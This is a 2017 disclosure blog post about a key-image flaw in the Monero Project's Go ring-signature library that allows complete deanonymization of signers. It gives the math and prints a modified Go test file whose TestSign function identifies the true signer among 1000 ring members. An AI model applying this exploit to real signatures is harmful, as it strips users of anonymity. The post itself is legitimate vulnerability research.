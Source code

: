 ```yaml
---
layout: post
tumblr_id: 1121203386
date: 2017-10-17 09:00:00 UTC
title: Unique Ring Signatures (URS) - broken cryptography
---
```


**Disclaimer:** the vulnerable code is <b>not</b> critical to the Monero cryptocurrency. 
The code is in no way or form used in the reference client of the CryptoNote protocol.
However the code is managed by the Monero Project. The repository is under the name of the project so it should be held to some standards.
Having old code laying around and disregarding it is not very smart. 


<hr />

The repository we analyzed is [Unique Ring Signature (URS)](https://github.com/monero-project/urs), a Golang implementation of traceable ring signatures.

The consequences of the vulnerability are sadly quite harsh, it results in **complete deanonymization of a ring signature**.
Basically the worst case scenario for this specific cryptographic construct.

The bug resides in constructing the KeyImage, more specifically in how it maps a hash to a point on the curve.

Currently the implementation does the following

$$H_p = (SHA256)(P_i) \cdot G$$

instead of mapping the hash to the curve indeterministically (logarithm unknown).

The **KeyImage** is equal to

$$I = x_i \cdot H_p(P_i)$$


then combining both formulas results in 

$$I = x_i \cdot (SHA256)(P_i) \cdot G$$

due to the associative nature of elliptic curves and keeping in mind that the public key is equal to 
$$P_i = x_i \cdot G$$, we get the following equation: 

$$I = P_i \cdot H_p(P_i)$$

An attacker is able to calculate the keyimage for all public keys of the ring and then match it with the one provided by the ring signature.

This is the same type of KeyImage bug that was discovered in [ShadowCash](https://web.archive.org/web/20160218042108/https://shnoe.wordpress.com/2016/02/11/de-anonymizing-shadowcash-and-oz-coin/).

<br />
### Exploit testcase
<hr>

When I discovered this bug I had no prior experience with Golang so I forwarded the issue over to **Tecnovert** to take a look at and verify that this was indeed the case.
He made a few additions to the existing testcase (urs_test.go). The modified version below will simply generate a ring signature with 1000 ring members and then deanonymize it.
You can easily check the additions to the test case [here](https://github.com/kewde/urs/commit/0998045192c0856d2120706a751e6f21f1c3a209). Note that **TestSign** is where the magic happens.



```golang
// Copyright 2014 Hein Meling and Haibin Zhang. All rights reserved.
// Additions made by tecnovert (Particl).
// Use of this source code is governed by the MIT
// license that can be found in the LICENSE file.

package main

import (
	"crypto/ecdsa"
	"crypto/elliptic"
	"crypto/sha256"
	crand "crypto/rand"
	"fmt"
	"math/rand"
	"runtime"
	"testing"
)

const numOfKeys = 1000

var (
	DefaultCurve = elliptic.P256()
	keyring      *PublicKeyRing
	testkey      *ecdsa.PrivateKey
	testmsg      []byte
	testsig      *RingSign
)

func TestGenerateKey(t *testing.T) {
	runtime.GOMAXPROCS(4)
	var err error
	testkey, err = GenerateKey(DefaultCurve, crand.Reader)
	if err != nil {
		fmt.Println(err.Error())
		t.FailNow()
	}
}

func TestNewPublicKeyRing(t *testing.T) {
	keyring = NewPublicKeyRing(1)
	keyring.Add(testkey.PublicKey)
	expectedLen := 1
	if len(keyring.Ring) != expectedLen {
		t.Errorf("len(keyring)=%d, expected %d", len(keyring.Ring), expectedLen)
	}
}

func TestPopulateKeyRing(t *testing.T) {
	keyring = NewPublicKeyRing(numOfKeys)
	rand.Seed(23)
	k := rand.Intn(numOfKeys)
	fmt.Println("Index of my key: ", k)
	for i := 0; i < numOfKeys; i++ {
		key, err := GenerateKey(DefaultCurve, crand.Reader)
		if err != nil {
			fmt.Println(err.Error())
			t.FailNow()
		}
		if i == k { // designate this as my key
			testkey = key
		}
		// add the public key part to the ring
		keyring.Add(key.PublicKey)
	}
	if len(keyring.Ring) != numOfKeys {
		t.Errorf("len(keyring)=%d, expected %d", len(keyring.Ring), numOfKeys)
	}
}

func TestSign(t *testing.T) {
	testmsg = []byte("Hello, world.")
	var err error
	testsig, err = Sign(crand.Reader, testkey, keyring, testmsg)
	if err != nil {
		fmt.Println(err.Error())
		t.FailNow()
	}

	fmt.Printf("testsig.hsx %s\n", testsig.X.String())
	fmt.Printf("testsig.hsy %s\n", testsig.Y.String())

	mR := append(testmsg, keyring.Bytes()...)

	c := keyring.Ring[0].Curve
	h := sha256.New()
	h.Write(mR)
	d := h.Sum(nil)

	fmt.Printf("looping through ring of %d\n", keyring.Len())
	for j := 0; j < keyring.Len(); j++ {

		rx, ry := c.ScalarMult(keyring.Ring[j].X, keyring.Ring[j].Y, d)

		//if testsig.X == rx && testsig.Y == ry {
		if testsig.X.String() == rx.String() && testsig.Y.String() == ry.String() {
			fmt.Printf("Found signing key: %d\nx: %s\ny: %s\n", j, rx.String(), ry.String())
		}
	}

}

func TestVerify(t *testing.T) {
	if !Verify(keyring, testmsg, testsig) {
		fmt.Println("urs: signature verification failed")
		t.FailNow()
	}
}

func BenchmarkSign(b *testing.B) {
	runtime.GOMAXPROCS(8)
	var err error
	for i := 0; i < b.N; i++ {
		testsig, err = Sign(crand.Reader, testkey, keyring, testmsg)
		if err != nil {
			fmt.Println(err.Error())
			b.FailNow()
		}
	}
}

func BenchmarkVerify(b *testing.B) {
	runtime.GOMAXPROCS(8)
	for i := 0; i < b.N; i++ {
		if !Verify(keyring, testmsg, testsig) {
			fmt.Println("urs: signature verification failed")
			b.FailNow()
		}
	}
}
```
